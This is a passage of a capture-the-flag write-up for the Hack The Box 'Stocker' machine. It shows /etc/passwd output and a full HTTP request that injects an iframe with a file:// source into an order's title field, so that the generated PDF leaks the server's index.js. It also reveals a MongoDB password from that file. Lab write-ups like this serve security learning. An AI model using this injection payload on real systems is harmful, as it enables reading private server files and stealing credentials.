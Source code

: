 ```
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

And we have a potential user 

So i tried to read the user's ssh key but it failed 

Now lets loot to find credentials

So we know already that this web server is running on Express which is Nodejs 

We can confirm it by looking at wappalyzer to know the framework the web server uses
![image](https://user-images.githubusercontent.com/113513376/213950010-0df1c23c-b40b-4bcd-88ca-c09ccf66f372.png)

Now every Express server has a file which is usually included in the nodejs package and its called the index.js file 

Lets try reading it 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 248
Connection: close
Cookie: connect.sid=s%3A8XVW8w791Amd4QZxsCRVUrl7-hfnlp7V.ispsz43tztEA0VsYgsK3XS4vF%2FNjg6pMRBVsqFdRJOk

{"basket":[{"_id":"638f116eeb060210cbd83a93","title": "<iframe src=file:///var/www/dev/index.js height=750px width=750px></iframe>","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```

On reading the output we see the mongodb credential `dev:IHeardPassphrasesArePrettySecure`
![image](https://user-images.githubusercontent.com/113513376/213950084-5555e7f4-8b7a-4124-96fc-f6eb8821ec7a.png)

```
Stockers - Purchase Order
Supplier
Stockers Ltd.
1 Example Road
Folkestone
Kent
CT19 5QS
GB
Purchaser
Angoose
1 Example Road
London
GB
1/23/2023
Thanks for shopping with us!
Your order summary:
Item Price
(£) Quantit
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
```